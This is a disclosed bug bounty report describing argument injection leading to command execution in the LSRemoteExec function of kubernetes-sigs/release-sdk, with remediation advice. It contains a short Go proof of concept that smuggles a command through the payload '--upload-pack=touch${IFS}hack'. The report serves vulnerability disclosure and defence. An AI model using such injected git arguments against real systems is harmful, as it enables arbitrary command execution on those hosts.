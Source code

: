 # Git Arg Injection in  kubernetes-sigs/release-sdk 

## Report Details
- **Report ID**: 1763704
- **URL**: https://hackerone.com/reports/1763704
- **State**: Closed
- **Severity**: low
- **Submitted**: 2022-11-06T17:50:42.872Z
- **Disclosed**: 2023-05-25T12:48:18.341Z

## Reporter
- **Username**: snoopysecurity
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: kubernetes

## Vulnerability Information
Technical Details: It's possible to get a command injection via argument injection.

The LSRemoteExec function (https://github.com/kubernetes-sigs/release-sdk/blob/main/git/git.go#L336) is concentating user input with a git command that can be leveraged for arbritary command injection. More details of this issue can be found here: https://snyk.io/blog/argument-injection-when-using-git-and-mercurial/

The below PoC uses the git package from kubernetes-sigs, and the following payload `--upload-pack=touch${IFS}hack` is provided to it which creates a file called hack in the local system.

```
package main

import (
	"fmt"
	"github.com/kubernetes-sigs/release-sdk/git"
)

func main() {
	fmt.Println("hello world")

	var result,err = git.LSRemoteExec("--upload-pack=touch${IFS}hack","master")
	if err != nil {
		fmt.Println(err)
	}

fmt.Println(result)

}

```
I see this package being used here: https://github.com/kubernetes/release/blob/master/pkg/release/branch_checker.go#L44 but i wasn't fully able to understand how branch checker was being used within the kubernetes release package.


A possible remediation to fix this issue (it's just a suggestion - it has to be tested) could be to add `--` before user provided values.

Below similars issues with some references and suggestions on how to fix this:

      * fix commit: https://github.com/composer/composer/commit/332c46af8bebdead80a2601350dff7af0ac1f490
    * "dispatch: stop parsing of early boolean option at "--"": https://www.mercurial-scm.org/repo/hg/rev/e16f68c4abe3
    * "dispatch: add HGPLAIN=+strictflags to restrict early parsing of global options": https://www.mercurial-scm.org/repo/hg/rev/c9740b69b9b7 (https://www.mercurial-scm.org/repo/hg/help/environment)

## Impact

If user input flows into the `LSRemoteExec`, it could allow execution of arbritary commands.

## Attachments
No attachments
